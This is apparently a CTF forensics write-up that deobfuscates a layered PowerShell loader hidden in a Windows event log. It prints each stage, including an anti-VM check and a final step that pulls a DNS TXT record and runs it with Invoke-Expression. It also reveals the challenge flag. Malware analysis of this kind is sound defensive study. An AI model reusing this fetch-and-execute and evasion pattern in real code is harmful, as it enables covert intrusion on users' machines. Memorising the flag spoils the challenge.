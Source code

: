 ### Huntress CTF Challenge Texas Chainsaw Massacre - Forensics
### Date: 18/10/23
### Goal: Reverse offuscated script
### Languages: Powershell, EVTX
---
During October I played a bit with the Huntress CTF https://huntress.ctf.games/. This is a description of how I solve the forensics challenge Texas Chainsaw Massacre:

---


### Texas Chainsaw Massacre: Tokyo Drift
Author: @resume

Ugh! One of our users was trying to install a Texas Chainsaw Massacre video game, and installed malware instead. Our EDR detected a rogue process reading and writing events to the Application event log. Luckily, it killed the process and everything seems fine, but we don't know what it was doing in the event log.

The EVTX file is [attached](ChainsawMassacre.zip?raw=true "ChainsawMassacre.zip"). Are you able to find anything malicious?

Archive password: infected

---

1) The first thing I always do is to run `strings` and `file` to have a first impression of the content.


```
file Application\ Logs.evtx
Application Logs.evtx: MS Windows Vista Event Log, 3 chunks (no. 2 in use), next record no. 268
```
checking for strings showed some interesting PowerShell scripts:

```powershell
strings -n 10 Application\ Logs.evtx

...
(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')
...
```

2) If we open the Windows Event Log in a test VM and do a quick sanity check, we can quickly spot an odd event ID 1337 with a large binary blob. This can also be found looking for "Texas".

![Event Log](eventlog.png?raw=true "Application Windows Event Log")

3) If we take the binary blob and decode it we can see the same PowerShell code we saw running strings:
```Powershell
(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')
```
4) The tail of the code `|( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')` can be decoded to `|. (iex)`, which will execute the previous code. If we execute all this code, except `|. (iex)`, we get:

```powershell
. ( $ENv:CoMSpEc[4,24,25]-join'')( " $( Set-variaBle 'OfS' '')"+ ( [StriNg] [rEGeX]::mAtcheS( " ))421]RAhC[,'fKI'eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,'kwl'EcalPeRC-  )')b'+'0Yb0Y'+'niOj-]52,'+'42,'+'4[ce'+'p'+'SMoC:Vn'+'ekwl ( '+'. fKI ) (DnEOTDA'+'e'+'r.)} ) '+'iicsA:'+':]GnidOcN'+'e.'+'T'+'xet'+'.'+'METsys['+' ,_kw'+'l (RED'+'AeRmaertS.oI'+' t'+'C'+'ejbO-W'+'En { HCaERoF'+'fKI) sSERpMoCe'+'d'+'::'+']edOM'+'nOisSErPMoc'+'.NoISSer'+'pMOc.oi[, ) b0Y'+'==wDyD4p+Ss/l/'+'i+5GtatJKyfNjO'+'3'+'3'+'4V'+'vj6wRyRXe1xy1pB0'+'AXVLMgOwY'+'//'+'Wom'+'zzU'+'tB'+'sx/ie0rVZ7'+'xcLiowWMGEVjk7JMfxVmusz'+'OT3XkKu9TvOsr'+'bb'+'cb'+'GyZ6c/gY'+'Npil'+'BK7x5'+'Plc'+'8qUyOhBY'+'VecjNLW42YjM8SwtA'+'aR8I'+'O'+'w'+'m'+'6'+'UwWNmWzCw'+'VrS'+'r7I'+'T2'+'k6Mj1Mu'+'K'+'T/oR'+'O5BKK8R3NhD'+'om2A'+'GYp'+'ya'+'TaNg8DAneNoeSj'+'ugkTBFTcCPaSH0QjpFyw'+'aQy'+'HtPUG'+'DL0BK3'+'lClrHAv'+'4GOpVK'+'UN'+'mGzIDeraEvlpckC9EG'+'gIaf96jSmS'+'Mh'+'h'+'RfI72'+'oHzUkDsZoT5'+'n'+'c7MD8W31XqK'+'d4dbt'+'bth1RdSigEaE'+'JNERMLUxV'+'ME4PJtU'+'tSIJUZfZ'+'EE'+'A'+'JsTdDZNb'+'0Y(gniRTS4'+'6es'+'aBmoRF::]tRevnO'+'C[]MAertsYrOmeM.Oi.mETSYs[ (MaEr'+'t'+'sEtALfeD.NO'+'IsSerPmoc.OI.me'+'TsYS'+' '+' tCejbO-WE'+'n ( '(((noIsseRpXe-ekovni ",'.','RightToLEFt' ) |forEach{$_ })+" $( sV 'oFs' ' ')" )
```
5) In this case, the next iteration will be executed by the header `( $ENv:CoMSpEc[4,24,25]-join'')` that can also be decoded as `iex`. If we remove the header and execute the rest of the code we find:

```powershell
invoke-eXpRessIon(((' ( n'+'EW-ObjeCt '+' '+'SYsT'+'em.IO.comPreSsI'+'ON.DefLAtEs'+'t'+'rEaM( [sYSTEm.iO.MemOrYstreAM][C'+'OnveRt]::FRomBa'+'se6'+'4STRing(Y0'+'bNZDdTsJ'+'A'+'EE'+'ZfZUJISt'+'UtJP4EM'+'VxULMRENJ'+'EaEgiSdR1htb'+'tbd4d'+'KqX13W8DM7c'+'n'+'5ToZsDkUzHo'+'27IfR'+'h'+'hM'+'SmSj69faIg'+'GE9CkcplvEareDIzGm'+'NU'+'KVpOG4'+'vAHrlCl'+'3KB0LD'+'GUPtH'+'yQa'+'wyFpjQ0HSaPCcTFBTkgu'+'jSeoNenAD8gNaT'+'ay'+'pYG'+'A2mo'+'DhN3R8KKB5O'+'Ro/T'+'K'+'uM1jM6k'+'2T'+'I7r'+'SrV'+'wCzWmNWwU'+'6'+'m'+'w'+'O'+'I8Ra'+'AtwS8MjY24WLNjceV'+'YBhOyUq8'+'clP'+'5x7KB'+'lipN'+'Yg/c6ZyG'+'bc'+'bb'+'rsOvT9uKkX3TO'+'zsumVxfMJ7kjVEGMWwoiLcx'+'7ZVr0ei/xs'+'Bt'+'Uzz'+'moW'+'//'+'YwOgMLVXA'+'0Bp1yx1eXRyRw6jv'+'V4'+'3'+'3'+'OjNfyKJtatG5+i'+'/l/sS+p4DyDw=='+'Y0b ) ,[io.cOMp'+'reSSIoN.'+'coMPrESsiOn'+'MOde]'+'::'+'d'+'eCoMpRESs )IKf'+'FoREaCH { nE'+'W-Obje'+'C'+'t '+'Io.StreamReA'+'DER( l'+'wk_, '+'[sysTEM'+'.'+'tex'+'T'+'.e'+'NcOdinG]:'+':Ascii'+' ) }).r'+'e'+'ADTOEnD( ) IKf .'+' ( lwke'+'nV:CoMS'+'p'+'ec[4'+',24'+',25]-jOin'+'Y0bY0'+'b)')  -CRePlacE'lwk',[ChAR]36  -CRePlacE ([ChAR]89+[ChAR]48+[ChAR]98),[ChAR]39  -RePLACe'IKf',[ChAR]124)) 

```

6) In this interation we see the previous tail that will execute the code  `| . ( $enV:CoMSpec[4,24,25 -jOin'')`. We remove it and execute again:
```powershell
( nEW-ObjeCt  SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBase64STRing('NZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13W8DM7cn5ToZsDkUzHo27IfRhhMSmSj69faIgGE9CkcplvEareDIzGmNUKVpOG4vAHrlCl3KB0LDGUPtHyQawyFpjQ0HSaPCcTFBTkgujSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCzWmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433OjNfyKJtatG5+i/l/sS+p4DyDw==' ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::deCoMpRESs )|FoREaCH { nEW-ObjeCt Io.StreamReADER( $_, [sysTEM.texT.eNcOdinG]::Ascii ) }).reADTOEnD( ) | . ( $enV:CoMSpec[4,24,25 -jOin'') 
```

7) This generate the following decode code, which I have reformated: 

```powershell
( $ENv:CoMSpEc[4,24,25]-join'')
invoke-eXpRessIon(

try {
    $TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ;
    if ($error.Count -eq 0) 
        { $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { $_.Strings }); 
        if ($5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') 
        { 
            [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Invoke-Expression 
        } 
    } 
} catch { }
```

8) It is interesting to see the AntiVM mechanism below. This query will faill is the script is executed inside a VM, ending the script execution. This is done to prevent dynamic analysis in a VM:

```powershell
    $TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ;
```

9) The rest of the code gets the TXT record of eventlog.zip and executes it. We can get this record:

```
% dig eventlog.zip  TXT

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
;; QUESTION SECTION:
;eventlog.zip.			IN	TXT

;; ANSWER SECTION:
eventlog.zip.		160	IN	TXT	"U3RhcnQtUHJvY2VzcyAiaHR0cHM6Ly95b3V0dS5iZS81NjFubmQ5RWJzcz90PTE2IgojZmxhZ3s0MDk1MzczNDdjMmZhZTAxZWY5ODI2YzI1MDZhYzY2MH0jCg=="

```

We can now Base64 decode it, and get a youtube video that mimics the payload, and the flag:

```
echo U3RhcnQtUHJvY2VzcyAiaHR0cHM6Ly95b3V0dS5iZS81NjFubmQ5RWJzcz90PTE2IgojZmxhZ3s0MDk1MzczNDdjMmZhZTAxZWY5ODI2YzI1MDZhYzY2MH0jCg== |openssl enc -a -d

Start-Process "https://youtu.be/561nnd9Ebss?t=16"
#flag{409537347c2fae01ef9826c2506ac660}#
```
